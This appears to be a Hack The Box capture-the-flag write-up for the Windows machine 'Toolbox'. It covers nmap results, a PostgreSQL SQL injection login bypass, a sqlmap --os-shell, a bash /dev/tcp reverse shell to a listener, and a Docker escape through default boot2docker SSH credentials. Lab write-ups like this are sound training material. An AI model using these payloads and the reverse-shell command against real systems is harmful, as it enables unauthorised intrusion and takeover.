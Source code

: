 # Hackthebox - Toolbox

- Windows

![toolbox](../.res/HTB-Toolbox.png)

- [Box on Hackthebox](https://app.hackthebox.com/machines/452)

## Nmap

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.38 ((Debian))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-03-12T00:02:14
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.07 seconds
```

- Let's add `admin.megalogistic.com` and `megalogistic.com` to our hosts file.

## FTP

- Anonymous FTP is allowed and we have on file on the target. Let's take it `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`

## Webserver

If we go to https://admin.megalogistic.com/ we have a login panel

![login panel](../.res/2023-03-11-19-19-38.png)

If we put a quote in the user field we can generate a sql error  

![sql error](../.res/2023-03-11-19-34-52.png)  

- It is using `pg_query` so it is postgres sql.
- Let's try to do the most common bypass authentication payload except we translate it in postgresql this does the trick `username='+or+1=1--&password=aaa`

![bypass login](../.res/2023-03-11-19-59-58.png)  

- In the browser it looks like this

![](../.res/2023-03-11-20-01-52.png)

If we google the "uplusion23" we find a github user https://github.com/uplusion23. if we have a look at his github page https://uplusion23.github.io/ we find his portfolio and then we can have a look at the admin panel on CodePen [here](https://codepen.io/uplusion23/pen/yzBbXj)

- We have a todo list and a list of users

![todo list](../.res/2023-03-11-20-11-58.png)  

## subdomain

![nslookup](../.res/2023-03-11-20-53-34.png)

![](../.res/2023-03-11-20-55-49.png)

## Shell as postgresql

If we use sqlmap we can get a shell on the target `sqlmap -r request -p username --os-shell`  
To get the request file we just need to right click in the burp request and select save item  

![save item](../.res/2023-03-18-20-37-08.png)
Here is the shell we get  
![os-shell](../.res/2023-03-18-20-38-37.png)
If we ls on hone we have a user named tony.  
When looking around a little we find the user flag `/var/lib/postgresql/user.txt`

- We also find an .ssh folder with a known_hosts file
- We can try to add our pu
- Something weird is that if we cat /etc/passwd we do not find the user tony we found in /home. However the folder tony belongs to root so our root user might be named tony
- Also this seems to be a docker instance.
- Let's get a reverse shell we set a listener `rlwrap nc -nlvp 1234` this way we will get a more verbose shell in case of errors
- then we launch this from our previous prompt `bash -c 'bash -i >& /dev/tcp/10.10.14.5/1234 0>&1'`
- uname -a gives `command standard output: 'Linux bc56e3cc55e9 4.14.154-boot2docker #1 SMP Thu Nov 14 19:19:08 UTC 2019 x86_64 GNU/Linux'` so we loopback to this boot2docker
- We know it uses this docker: https://github.com/boot2docker/boot2docker
- So If we want to escape docker we can ssh as docker to 172.17.0.1 `ssh docker@172.17.0.1` (we can check ifconfig for this)
- We get a shell this way (the users and pass are in the git above)
- The difficulty here is that we need to upgrade our shell and be quick because we loose the shell every few minutes.
- Here is how to upgrade our shell (thanks to my friend Brianlane for the support on this part)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
// Open a notepad to keep the info about term and rows and cols
// Background our nc / rlwrap nc connection
Ctrl - z 
// Get our current terminal  version and write it into our notepad
echo $TERM
tmux-256color
// Get our current terminal  dimensions
stty -a
// Write them down
rows 39; columns 190;
// Enable standard terminal commands
stty raw -echo;fg
//Reset the shell so we can configure it with our current settings
reset
//Enter the terminal info we noted earlier
Terminal type?
xterm-256color
stty rows 39 columns 190
```

- When we loose our shell and need to get it back we can repeat these steps just this way

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
// Background our nc / rlwrap nc connection
Ctrl - z 
// Enable standard terminal commands
stty raw -echo;fg
//Reset the shell so we can configure it with our current settings
reset
//Enter the terminal info we noted earlier
Terminal type?
xterm-256color
stty rows 39 columns 190
```

- And ssh again `ssh docker@172.17.0.1`

![docker](../.res/2023-03-25-19-09-23.png)

- If we `sudo -l` we can see that it allows to `sudo su` without having to enter any password.
- The flag is not in the root folder
- If we go back we find a c directory with a Users folder in it that looks a lot like a win file system
![docker](../.res/2023-03-25-19-45-31.png)
- If we go to Administrator/Desktop we can get the root flag  
![Administrator](../.res/2023-03-25-19-51-16.png)
